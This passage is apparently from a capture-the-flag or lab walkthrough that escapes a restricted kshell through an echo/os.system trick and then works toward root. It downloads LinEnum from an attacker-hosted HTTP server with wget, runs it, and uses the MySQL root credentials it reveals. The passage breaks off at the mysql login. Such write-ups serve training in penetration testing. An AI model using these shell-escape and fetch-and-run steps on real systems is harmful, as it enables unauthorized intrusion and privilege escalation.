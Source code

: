 ```bash

You successfully log in but are restricted to a kshell, which limits the available commands:

cd, clear, echo, exit, help, ll, lpath, ls



---

Breaking Out of the Restricted Shell

Use the echo command to spawn a full shell:

Command:

echo os.system('/bin/bash')

Results:

You now have a full interactive shell!


---

Step 3: Privilege Escalation

Goal: Escalate privileges to root access.

Running LinEnum

To find vulnerabilities, upload and run LinEnum.sh:

Transfer LinEnum to the Target:

1. Start a Python HTTP server on your attacker machine:

python3 -m http.server


2. Download LinEnum on the target:

cd /tmp  
wget http://<attackerIP>:8000/linenum.sh  
chmod +x linenum.sh



Execute LinEnum:

./linenum.sh


---

Discovering MySQL Credentials

LinEnum reveals MySQL root credentials. Connect to the database using:

Command:

mysql -u root -p

Results:
```